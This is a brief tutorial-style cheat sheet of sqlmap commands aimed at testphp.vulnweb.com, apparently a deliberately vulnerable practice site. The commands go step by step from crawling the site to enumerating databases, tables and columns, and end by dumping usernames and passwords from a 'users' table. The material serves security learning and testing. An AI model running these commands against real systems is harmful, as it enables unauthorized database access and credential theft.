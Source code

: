 ## Sql Injection automation

Target Domain http://testphp.vulnweb.com
Crawling

    sqlmap -u "http://testphp.vulnweb.com" --crawl=2 -v --random-agent --batch -o crawl.txt

All DBMS name

    sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -dbs -v --random-agent --batch -o dbs.txt

Dump Full Table

    sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart --tables -v --random-agent --batch -o table.txt

Dump Full Column

    sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart -T users --columns -v --random-agent --batch -o columns.txt

Dump Column data

    sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart -T users -C uname,pass --dump -v --random-agent --batch -o dump-dbs-data.txt